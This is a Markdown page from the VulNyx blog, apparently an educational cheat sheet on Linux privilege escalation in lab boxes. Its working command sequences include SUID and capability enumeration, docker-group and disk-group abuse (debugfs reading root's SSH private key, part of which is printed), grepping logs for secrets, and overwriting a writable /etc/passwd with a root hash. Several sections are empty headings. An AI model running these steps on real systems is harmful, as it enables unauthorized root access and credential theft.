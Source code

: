 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Enumeration

```ruby
# sudo
sudo -l
# If when performing the previous step it tells you that sudo is not found
find / -name sudo 2>/dev/null

# suid
find / -perm -4000 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
find / -perm -4000 -exec ls -l {} \; 2>/dev/null

# capabilities
/usr/sbin/getcap -r / 2>/dev/null

# users
grep "sh$" /etc/passwd

# writable
find / -writable 2>/dev/null
find / -writable 2>/dev/null | grep -viE "proc|sys|dev"
find / -writable -user low 2>/dev/null
```

If I identify a **binary** with `suid` or `sudo` **permissions** [**GTFOBins**](https://gtfobins.github.io) is the way.

---

### Cron (Task)

View `cron` jobs defined in **global file**:

```ruby
cat /etc/crontab
```

If tasks have been defined in the individual file that each user has with `crontab -e`, it is necessary to monitor with specific tools.

**pspy**

Use [**pspy**](https://github.com/DominicBreuker/pspy) tool to **monitor tasks**.

```ruby
low@vulnyx:~$ cd /dev/shm
low@vulnyx:/dev/shm$ wget -q --no-check-certificate "https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64"
low@vulnyx:/dev/shm$ chmod +x pspy64
low@vulnyx:/dev/shm$ ./pspy64
```

**Bash**

You can also use `bash` and do it manually.

```ruby
#!/bin/bash

old=$(ps -eo command)
filter="kworker|command|defunct"

function ctrl_c(){
  exit 1
}

trap ctrl_c int

while true; do
  new=$(ps -eo command)
  diff <(echo "$old") <(echo "$new") | grep "[\>\<]" | grep -vE "$filter"
  old=$new
done
```

---

### Groups

#### sudo

When a user is part of the `sudo` **group**, he can run any command as the `root` user.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),27(sudo)

# Abuse Group
low@vulnyx:~$ sudo su
root@vulnyx:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)

# Abuse Group
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm

low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
```

#### adm

When a user is part of the `adm` **group**, he can **read log files** on the system.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),4(adm)

# Abuse Group
low@vulnyx:~$ grep --color -Eri "pass|password|secret|db" /var/log 2>/dev/null
```

#### docker

When a user is part of the `docker` **group**, they have the ability to **manage containers**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)

# Abuse Group
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### Doas

---

### pkexec <=0.105-31 (CVE-2021-4034)

---

### sudo <=1.8.27 (CVE-2019-14287)

---

### chkrootkit

---

### DirtyCOW

---

### Path Hijacking (Path Variable)

**Cron**

---

### Python Library Hijacking

---

### Wilcard

---

### /etc/passwd (Writable)

If a low-privileged user has **write permissions** to the `/etc/passwd` file, an attacker can remove the `x` (on the **root** user line) and add a **hash**, this will cause the file that validates credentials to change from `/etc/shadow` to `/etc/passwd`.

```ruby
# Check Permissions
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd

# Create Hash
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0

# Add Hash
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash
# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash

# Authenticate
low@vulnyx:~$ su -
Password:
root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
